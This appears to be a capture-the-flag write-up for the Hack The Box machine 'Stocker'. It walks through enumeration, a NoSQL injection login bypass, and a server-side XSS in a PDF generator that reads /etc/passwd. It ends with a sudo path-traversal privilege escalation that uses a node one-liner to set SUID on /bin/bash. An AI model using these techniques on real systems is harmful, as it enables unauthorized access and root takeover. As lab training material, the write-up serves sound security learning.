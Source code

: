 # Stocker
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.10.11.196
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.04 seconds
```

## 2. TCP-80
First of all we can add `stocker.htb` to `/etc/hosts` and then visit the site. 

![home](Images/home.png)

Let's enumerate with `gobuster`. I didn't find any subdirectories but subdomains yes.

```bash
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/asd/Scaricati/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/05/10 11:03:19 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
                                               
===============================================================
2023/05/10 11:04:21 Finished
===============================================================
```

I add the domain to the hosts and visit the site.

<p align="center">
  <img src="Images/login.png" />
</p>

Let's enumerate the subdirectory with `dirb`.

```bash
└─$ dirb http://dev.stocker.htb/ /home/asd/Scaricati/SecLists/Discovery/Web-Content/common.txt                     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 10 11:36:52 2023
URL_BASE: http://dev.stocker.htb/
WORDLIST_FILES: /home/asd/Scaricati/SecLists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4710                                                          

---- Scanning URL: http://dev.stocker.htb/ ----
+ http://dev.stocker.htb/Login (CODE:200|SIZE:2667)                                                               
+ http://dev.stocker.htb/login (CODE:200|SIZE:2667)                                                               
+ http://dev.stocker.htb/logout (CODE:302|SIZE:28)                                                                
+ http://dev.stocker.htb/static (CODE:301|SIZE:179)                                                               
+ http://dev.stocker.htb/stock (CODE:302|SIZE:48)                                                                 
                                                                                                                  
-----------------
END_TIME: Wed May 10 11:46:57 2023
DOWNLOADED: 4710 - FOUND: 5
```

Ok, we visit `/stock`.

![stock](Images/stock.png)

### 2.1 Other possible solution to bypass login and get /stock
#
Simultaneously with the execution of `dirb`, I tried to get more information by trying to bypass the login via SQL Injection and inspecting the source code, but without success, so I tried a NoSQL Injection. First I intercepted the request with `burp`, then I followed the [HackTrick](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) article by changing the " `Content-Type`" in `application/json` and bypassed authentication.

<p align="center">
  <img src="Images/burp.png" />
</p>

## 3. XSS
At this point, it is interesting to observe that, when a purchase is made, a PDF is generated showing the items purchased.

![stock](Images/pdf.png)

By analyzing the Burp history, it is possible to find the APIs that are called at the time of purchase, as well as the sent payload.

<p align="center">
  <img src="Images/payload.png" />
</p>

Very interesting is the fact that the "title" field can be modified and this modification is present in the generated PDF.

<p align="center">
  <img src="Images/pdftest.png" />
</p>

To get more information about the PDF, I downloaded it and parsed the metadata with `exiftool`.

```bash
└─$ exiftool document.pdf 
ExifTool Version Number         : 12.39
File Name                       : document.pdf
Directory                       : .
File Size                       : 39 KiB
File Modification Date/Time     : 2023:05:10 12:09:02-04:00
File Access Date/Time           : 2023:05:10 12:09:17-04:00
File Inode Change Date/Time     : 2023:05:10 12:09:17-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:05:10 15:55:13+00:00
Modify Date                     : 2023:05:10 15:55:13+00:00
```

The PDF is generated via "`Skia/PDF m108`" and googling for a possible exploit, the first result is a [HackTricks article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) which talks about XSS. So I tried putting a payload in the title that uses the "iframe" tag to read `/etc/passwd` and it worked.

<p align="center">
  <img src="Images/passwd.png" />
</p>

To get a better result I resized the "iframe" including the dimensions.

<p align="center">
  <img src="Images/resize.png" />
</p>

As indicated in the header of the responses intercepted with Burp, the server is `nginx`, so let's read the configuration file "/etc/nginx/nginx.conf".

<p align="center">
  <img src="Images/conf.png" />
</p>

As we already knew, the "dev" virtual host exists, but now we have info on where it operates.

Another interesting information that can be found in the response header is the presence of the "`X-Powered-By`" field which gives us information about the technology (e.g. ASP.NET PHP JBoss) that supports the application web. In that field is the technology called "Express" which is a web application framework for Node.js. So it looked for the presence, in "/var/www/dev", of pages that respect the Node.js naming scheme and found the page "`index.js`".

<p align="center">
  <img src="Images/passphrase.png" />
</p>

Nice, we have some credentials to use to connect via SSH and get the user flag.

```bash
└─$ ssh angoose@10.10.11.196
The authenticity of host '10.10.11.196 (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.196' (ED25519) to the list of known hosts.
angoose@10.10.11.196's password: 
Last login: Wed May 10 16:23:27 2023 from 10.10.14.116
angoose@stocker:~$ ls
user.txt
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ cat useer
cat: useer: No such file or directory
angoose@stocker:~$ cat user.txt 
e17b7c708d6441f148195d7fcd52b937
```

## 4. User to ROOT
Running the "`sudo -l`" command a couple of times, to throw it into error, returns some very interesting information.

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Ok, we can use `node` to run a script.js as root. 

So the steps to perform are the following:

1. Create a simple javascript program that adds the SUID to `/bin/bash`;
2. Run the created script as root using `node`;
3. Run the `bash -p` command to be root and get the flag.

```bash
angoose@stocker:~$ echo "require('child_process').exec('chmod u+s /bin/bash')" > getshell.js
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/getshell.js 
angoose@stocker:~$ bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
bash-5.0# cat /root/root.txt 
01bcfa8502d24451ee1fa193a0559fab
```
